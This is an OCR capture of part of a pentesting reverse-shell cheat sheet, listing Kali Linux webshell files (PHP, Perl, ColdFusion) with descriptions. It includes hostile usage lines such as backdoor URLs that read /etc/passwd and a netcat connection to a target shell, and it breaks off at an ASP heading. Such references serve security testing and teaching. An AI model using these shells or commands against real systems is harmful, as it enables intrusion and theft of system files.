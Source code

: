 COMMAND

DESCRIPTION

`/usr/share/webshells/php/   php-reverse-shell.php`

Pen Test Monkey - PHP Reverse Shell

`/usr/share/webshells/   php/php-findsock-shell.php`

`/usr/share/webshells/   php/findsock.c`

Pen Test Monkey, Findsock Shell. Build `gcc -o findsock findsock.c` (be mindfull of the target servers architecture), execute with netcat not a browser `nc -v target 80`

`/usr/share/webshells/   php/simple-backdoor.php`

PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: `http://target.com/simple-   backdoor.php?cmd=cat+/etc/passwd`

`/usr/share/webshells/   php/php-backdoor.php`

Larger PHP shell, with a text input box for command execution.

##### Tip: Executing Reverse Shells

The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

### Kali Perl Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-perl-reverse-shell)

Kali perl reverse shell:

COMMAND

DESCRIPTION

`/usr/share/webshells/perl/   perl-reverse-shell.pl`

Pen Test Monkey - Perl Reverse Shell

`/usr/share/webshells/   perl/perlcmd.cgi`

Pen Test Monkey, Perl Shell. Usage: `http://target.com/perlcmd.cgi?cat /etc/passwd`

### Kali Cold Fusion Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-cold-fusion-shell)

Kali Coldfusion Shell:

COMMAND

DESCRIPTION

`/usr/share/webshells/cfm/cfexec.cfm`

Cold Fusion Shell - aka CFM Shell

### Kali ASP Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-asp-shell)
